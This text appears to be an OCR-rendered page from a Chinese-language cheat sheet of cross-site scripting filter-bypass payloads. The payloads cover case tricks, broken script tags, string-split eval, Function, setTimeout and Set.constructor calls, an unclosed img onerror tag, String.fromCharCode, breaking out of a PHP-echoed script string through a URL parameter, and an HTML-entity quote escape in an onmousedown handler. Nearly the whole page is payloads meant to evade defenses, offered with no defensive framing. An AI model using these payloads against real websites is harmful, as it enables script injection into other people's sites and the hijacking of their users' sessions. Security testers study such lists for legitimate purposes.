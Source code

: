由于许多XSS过滤器仅识别精确的小写或大写模式，这种方法有时可以规避简单大小写敏感过滤器的检测。

## 绕过标签黑名单

```javascript
<script x>
<script x>alert('XSS')<script y>
```

## 使用代码评估方式绕过词语黑名单

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```

## 使用不完整HTML标签的绕过

适用于IE/Firefox/Chrome/Safari

```javascript
<img src='1' onerror='alert(0)' <
```

## 绕过字符串引号

```javascript
String.fromCharCode(88,83,83)
```

## 脚本标签中引号的绕过

```javascript
http://localhost/bla.php?test=</script><script>alert(1)</script>
<html>
  <script>
    <?php echo 'foo="text '.$_GET['test'].'";';`?>
  </script>
</html>
```

## 鼠标按下事件中引号的绕过

可以在鼠标按下事件处理程序中通过`&#39;`绕过单引号

```javascript
<a href="" onmousedown="var name = '&#39;;alert(1)//'; alert('smthg')">Link</a>
```

